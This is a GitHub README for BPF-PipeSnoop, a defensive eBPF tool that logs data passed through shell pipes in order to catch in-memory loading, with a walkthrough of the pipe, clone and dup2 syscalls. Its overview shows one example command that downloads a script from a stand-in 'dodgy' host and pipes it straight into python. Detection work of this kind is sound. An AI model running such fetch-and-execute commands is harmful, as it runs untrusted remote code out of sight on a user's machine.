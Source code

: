 # BPF-PipeSnoop
Example program using eBPF to log data being based in using shell pipes (`|`)

Accompanies my blog [Using eBPF to uncover in-memory loading](https://blog.tofile.dev/2021/02/15/ebpf-01.html)

# Overview
Shells can parse data between programs using pipes, e.g.:
```bash
curl https://dodgy.com/loader.py | python -
```

In this example, a python script is downloaded from the internet and executed,
without the file being written to disk, and its content is not visible on the commnandline.


`pipesnoop` is a demonstration of how you could detect when data is being passed using pipes
and log it, all using eBPF.

# Building
```bash
# First clone the repository and the libbpf submodule
git clone --recursive https://github.com/pathtofile/bpf-pipesnoop.git
cd bpf-pipesnoop/src
make
```
This should generate the program `pipesnoop` in the same directory.

# Running
Just run as root and watch the output:
```bash
sudo ./pipesnoop
```

# How it works
(Note experts will have better descripion than this)
When bash is given a command to run multiple programs with a pipe in between, a number of things happen.
If the example is:
```bash
bash -c "apple | banana"
```
Then this will happen:

### Bash pipe
bash will use the syscall `pipe` to create an annonamous pipe.
This returns two file descriptors, 1 for each end of the pip, e.g. fds `3` and `4`.

### Bash clone
bash will call `clone` twice to create `apple` and `banana`.
Both programs inhearet all of bash's fds, so they also has fds `3` and `4`.
**important note** this means both `apple` and `banana` start running at (almost) the same time,
i.e. `banana` does *not* wait for `apple` to finish before running.

### Apple close and dup2
`apple` will close one end of the pipe e.g. `3`, then call `dup2` to overwrite its `stdout` or `1`
fd with the non-closed end of the pipe, e.g. `dup2(4, 1)`.

### Banana close and dup2
`banana` will close the other end of the pipe, e.g. `4`, then call `dup2` to overwrite its `stdin` or `0`
fd with the non-closed end of the pipe, e.g. `dup2(3, 0)`.

### Apple write
`apple` will start writing data to `stdout` like normal, but due to the `dup2`
call it ends up instead into the pipe.

### Banana read
`banana` will start reading data from its `stdin` like normal, but due to the `dup2`
call it ends up instead reading from the pipe.

### Pipe close
When `apple` closes, it will send an 'end of stream' down the pipe, so `banana` knows it has finished reading.


# Aknowledgements
The skeleton of this project was made with the help of [Libpf-Bootstrap](https://github.com/libbpf/libbpf-bootstrap).
